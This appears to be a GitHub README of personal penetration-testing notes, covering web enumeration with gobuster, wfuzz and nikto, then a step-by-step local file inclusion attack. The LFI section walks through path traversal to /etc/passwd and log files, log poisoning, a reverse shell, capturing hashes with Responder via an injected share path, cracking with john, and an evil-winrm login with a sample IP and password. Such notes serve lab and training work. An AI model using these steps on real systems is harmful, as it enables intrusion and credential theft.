 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check /robots.txt /sitemap.xml\
2.gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\    -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ \ 
2.6. Check wappalayzer to check basic info of the page. \
3. nikto -h $IP   
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6.

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with ?file=index.php ?book=  (Possible vulnerabilities in source code)
3. book= ../../../../etc/passwd   (Figure out if the server is hosting on **Window or apache )
4. ../../../../var/www/html/index.php  html to confirm log poisoning 
5. Add  ../ ../../../../ and check if the following following files exists.
6. /etc/passwd\ /var/log/mail/USER\  /var/log/apache2/access.log\  /proc/self/environ\  /tmp/sess_ID\ /var/lib/php5/sess_ID\ /var/log/auth/log\  
7. /windows/system32/drivers/etc/hosts (for **window host)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, lets log poision ../../../../var/log/apache2/access.log via invalid connection request.
9. Connect to nc -nv $IP port. and insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. check for sucessful log poisioning ../../../../var/log/apache2/access.log&cmd=i.
11. If you receive command execution, we will insert a reversshell via url encoding. Done.
12. Use responder to capture. sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url. Use john the ripper to match hash. 
13. john -w=/usr/share/wordlists/rockyou.txt hash.txt
14. login to window .evil-winrm -i 10.129.147.34 -u Administrator -p badminton

## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2

## XSS
